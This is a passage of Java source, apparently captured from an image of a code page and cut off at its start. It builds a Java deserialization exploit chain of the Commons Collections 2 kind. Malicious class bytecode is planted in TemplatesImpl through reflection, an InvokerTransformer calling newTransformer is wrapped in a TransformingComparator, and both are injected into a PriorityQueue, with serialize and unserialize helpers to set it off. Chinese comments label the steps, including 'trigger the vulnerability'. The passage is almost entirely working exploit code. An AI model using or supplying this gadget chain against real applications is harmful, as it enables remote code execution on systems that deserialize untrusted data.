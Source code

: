 ```java
        byte[] bytes = ctClass.toBytecode();
        System.out.println(bytes);

        TemplatesImpl TemplatesImpl_instance = new TemplatesImpl();

        //将恶意类的字节码设置给_bytecodes属性
        Class<?> aClass = Class.forName("com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl");
        Field bytecodes = aClass.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        bytecodes.set(TemplatesImpl_instance, new byte[][]{bytes});

        //设置属性_name为恶意类
        Field name = aClass.getDeclaredField("_name");
        name.setAccessible(true);
        System.out.println(name.get(TemplatesImpl_instance));
        name.set(TemplatesImpl_instance, "xpssss");

        //构造利用链
        InvokerTransformer transformer = new InvokerTransformer("newTransformer", null, null);
        TransformingComparator transforming_Comparator = new TransformingComparator(transformer);

        //触发漏洞
        PriorityQueue queue = new PriorityQueue(2);
        queue.add(1);
        queue.add(2);

        //设置的comparator属性
        Field field = queue.getClass().getDeclaredField("comparator");
        field.setAccessible(true);
        field.set(queue, transforming_Comparator);

        //设置queue属性
        field = queue.getClass().getDeclaredField("queue");
        field.setAccessible(true);
        //队列至少需要2个元素
        Object[] objects = new Object[]{TemplatesImpl_instance, TemplatesImpl_instance};
        field.set(queue, objects);

        return queue;
    }


    public static byte[] serialize(final Object obj) throws Exception {
        ByteArrayOutputStream bout = new ByteArrayOutputStream();
        ObjectOutputStream objOut = new ObjectOutputStream(bout);
        objOut.writeObject(obj);
        return bout.toByteArray();
    }
    public static Object unserialize(final byte[] seria) throws Exception{
        ByteArrayInputStream btin = new ByteArrayInputStream(seria);
        ObjectInputStream ois = new ObjectInputStream(btin);
        return ois.readObject();
    }


}

```
